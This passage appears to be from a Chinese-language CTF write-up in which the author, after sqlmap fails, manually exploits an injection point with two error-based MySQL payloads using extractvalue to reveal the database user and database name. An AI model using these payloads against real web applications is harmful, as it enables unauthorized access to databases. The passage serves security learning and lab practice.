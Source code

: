 可以看出注入点存在，但是`sqlmap`无法实现自动注入，那么尝试手注：

```php
tt=1'and extractvalue(1,concat(1,(select user()))) %23
```

![image-20220126141750315](../CTF-images/image-20220126141750315.png)

```php
tt=1'and extractvalue(1,concat(1,(select database()))) %23
```

![image-20220126141829483](../CTF-images/image-20220126141829483.png)
